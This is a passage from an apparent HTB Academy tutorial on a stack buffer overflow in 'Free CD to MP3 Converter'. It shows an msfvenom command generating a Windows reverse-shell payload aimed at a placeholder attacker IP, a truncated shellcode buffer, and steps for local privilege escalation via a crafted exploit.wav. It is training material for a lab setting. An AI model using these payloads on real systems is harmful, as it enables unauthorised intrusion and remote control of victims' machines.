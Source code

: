 ```shell-session
frodonomojo@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT -f 'python'

...SNIP...
buf =  b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
...SNIP...
```

We can replace the `buf` shellcode in our exploit with either of these and test it. Let's assume we have access to a machine where we have the privilege to run this program as an administrator. We will write the shellcode for local privilege escalation in our exploit, generate our `exploit.wav` file, and load it into the program:

![CMD Admin](https://academy.hackthebox.com/storage/modules/89/win32bof_cmd_admin.jpg)

As we can see, this time, a `cmd.exe` window popped up, and we see in its title `Administrator`, which means that it is indeed running with escalated privileges, matching the user who was running `Free CD to MP3 Converter`.

Try to use the second shellcode to get a reverse shell on your Linux VM/`PwnBox`.

You can download the final exploit code from the following link. Don't forget to rename it from `.txt` to `.py`.

[Download win32bof_exploit_py.txt here](https://academy.hackthebox.com/storage/modules/89/scripts/win32bof_exploit_py.txt)

**Credit:** This information was adapted from an excellent guide on [HTB Academy](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-windows-x86). Be sure to check out the original post for more details.

